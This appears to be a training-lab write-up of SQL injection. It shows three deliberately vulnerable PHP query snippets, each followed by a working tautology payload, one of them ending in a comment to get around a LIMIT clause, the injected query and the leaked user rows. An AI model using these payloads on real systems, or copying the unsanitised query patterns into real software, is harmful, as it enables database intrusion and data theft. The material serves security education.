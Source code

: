# Vulnerable Code 1

This code fetch "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

# Abuse

Since there is no input sanitation for user input, we can sent a payload that didnt expected and get all data from database.

# Payload

```php
' or '1'='1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

# Result

```php
ID: ' or '1'='1
First name: admin
Surname: admin

ID: ' or '1'='1
First name: Gordon
Surname: Brown

ID: ' or '1'='1
First name: Hack
Surname: Me

ID: ' or '1'='1
First name: Pablo
Surname: Picasso

ID: ' or '1'='1
First name: Bob
Surname: Smith
```

# Vulnerable Code 2

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```


# Abuse

In this code, the id parameter is not inside of apostrophe character so payload will be without it and add "or 1=1" end of it

# Payload

```php
1 or 1=1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id=1 or 1=1;
```


# Result

```php
ID: 1 or 1=1
First name: admin
Surname: admin

ID: 1 or 1=1
First name: Gordon
Surname: Brown

ID: 1 or 1=1
First name: Hack
Surname: Me

ID: 1 or 1=1
First name: Pablo
Surname: Picasso

ID: 1 or 1=1
First name: Bob
Surname: Smith
```


# Vulnerable Code 3

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

# Abuse

In this code there is "Limit 1" at the end of sql query which means we cant get all database like code-1 and code-2. To abuse this code, we will use the same logic in code-1 but also will add "-- -" to make comment rest of the query. 

# Payload

```sql
1' or '1'='1'; -- -
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1'; -- -' LIMIT 1;
```

# Result

```php
ID: 1' or '1'='1'; -- -
First name: admin
Surname: admin

ID: 1' or '1'='1'; -- -
First name: Gordon
Surname: Brown

ID: 1' or '1'='1'; -- -
First name: Hack
Surname: Me

ID: 1' or '1'='1'; -- -
First name: Pablo
Surname: Picasso

ID: 1' or '1'='1'; -- -
First name: Bob
Surname: Smith
```